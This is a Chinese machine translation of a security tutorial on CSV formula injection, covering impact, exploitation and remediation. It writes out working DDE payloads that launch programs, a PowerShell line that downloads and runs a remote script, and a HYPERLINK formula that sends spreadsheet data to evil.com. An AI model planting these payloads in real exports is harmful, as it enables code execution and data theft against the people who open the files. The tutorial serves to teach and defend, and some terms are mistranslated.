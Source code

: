 # 配方注射|利用 CSV 功能

> 原文：<https://infosecwriteups.com/formula-injection-exploiting-csv-functionality-cd3d8efd02ec?source=collection_archive---------0----------------------->

配方注射入门。如何利用 Excel 进行开发？

![](img/3089c65673cff2e03f3a80b679610c1d.png)

照片由 [Hacktevo](http://twitter.com/hacktevo) 拍摄

许多现代 web 应用程序和框架都提供电子表格导出功能，允许用户下载. csv 或。xls 文件，适合在 Microsoft Excel 和 OpenOffice Calc 等电子表格应用程序中处理。生成的电子表格的单元格通常包含来自不可信来源的输入，如调查响应、交易详细信息和用户提供的地址。

当网站在 CSV 文件中嵌入不受信任的输入时，公式注入或 CSV 公式注入漏洞会影响应用程序。它会影响访问应用程序导出的电子表格文件的应用程序最终用户。当使用 Microsoft Excel 或 LibreOffice Calc 等电子表格程序打开 CSV 时，任何以=开头的单元格都将被软件解释为公式。

## 影响

1.通过利用电子表格软件(如 CVE-2014–3524)中的漏洞，或者通过利用用户忽略他们从自己的网站下载的电子表格中的安全警告的倾向，来劫持用户的计算机。
2。从电子表格或其他打开的电子表格中过滤内容。

恶意公式在输入参数中提供，希望它们被不充分地验证到导出到合法应用程序用户的电子表格中。例如，在销售订单的发货地址可导出到。xlsx 电子表格，或者在另一个例子中，调查者可导出的调查答案。

## **开发配方注射**

开发配方注射可能相对简单。这里，我们使用一个[动态数据交换](https://www.techopedia.com/definition/4973/dynamic-data-exchange-dde#:~:text=Dynamic%20Data%20Exchange%20(DDE)%20is,protocols%20for%20communication%20and%20sharing.)公式在 MS Excel Windows 受害者上执行 Calculator 作为示例负载。
作为攻击者，首先使用:

```
=cmd|’/C calc.exe’!Z0
```

作为电子商务应用程序中的名字或地址行 1，然后购买任意商品。完成结账程序。

![](img/a1ead06f27d4340a6d8c6aa4190672b1.png)

现在，作为受害者，使用应用程序的文件导出功能(包括名字，比如在送货地址中，供卖方参考)。在 Microsoft Excel 中打开它，会提示以下安全警告:

![](img/652c782d82288d57711dc82488c9883d.png)![](img/279841249fe3b5925e3fe2117f6e9115.png)

如果警告被点击通过(稍后将详细介绍)，我们就有了命令注入。然后可以通过多种方法提升到远程代码执行。一个例子是使用 PowerShell 下载并执行恶意代码，而不一定向反病毒软件发出警报。

```
=cmd|’/Cpowershell Import-Module BitsTransfer; Start-BitsTransfer -
source https://141.io/shell.ps; Invoke-Item shell.ps;’!z
```

最后，可以修改有效载荷本身，使其在没有数字和空格的情况下工作。这方面的一个例子是:

```
=cmd|’/Ccalc.exe’!z
```

事实上，如果不需要传递参数，甚至可以这样做:

```
=calc|a!z 
```

这在某些情况下对于本地特权提升或者作为概念的最小证明是有用的。

现在，除了使用 code exec 之外，还可能使用其他公式，如 HYPERLINK，从文档中提取机密信息。这个向量很有趣，因为当文件被访问时，甚至当超链接被点击时，都不会提示任何警告。让我们描绘一张包含共同基金经纪人统计数据的电子表格。它保存了他们的客户名单，他们的投资金额，他们的帐户信息和其他类似投资组合的名称。
如果任何一位客户，比如 Eve，将其姓名或投资组合名称更改为:

```
=HYPERLINK(“http://evil.com?x="&A3&","&B3&"[CR]","Error fetching info: Click me to resolve.”)
```

![](img/854dd3350d5d526cc3257147b03cb15a.png)

使用特制的有效负载，任何点击超链接的受害者都可以将文档的所有数据发送到远程站点。

> 为了让这个例子工作，需要**启用以下配置**:文件→选项→信任中心→信任中心设置→外部内容→启用动态数据交换服务器启动或使用**旧 Excel 版本**。

## 显示针对 Piwik 的 CSV 注射的视频:

# 补救

电子表格软件可以采取措施来减轻这些攻击，但防止公式注入最终是每个生成包含用户提供的内容的电子表格的应用程序的责任。目前，我们所知道的最好的防御策略是在以“=”、“+”或“-”开头的单元格前加上撇号。这将确保单元格不会被解释为公式，并且在 Microsoft Excel 中撇号本身不会显示。

另一个教训是。csv 和。tsv 文件不应被视为等同于。txt 文件，因为在其中嵌入活动内容很简单。

最后，确保您运行的是 Apache open office 4 . 1 . 1 版或更高版本，以及 libre office 4 . 2 . 5 版或更高版本。

## 而这就是配方注射或 csv 注射！您还想了解其他哪些安全概念？我们很想知道。欢迎在 Twitter [@hacktevo 上联系。](http://twitter.com/hacktevo)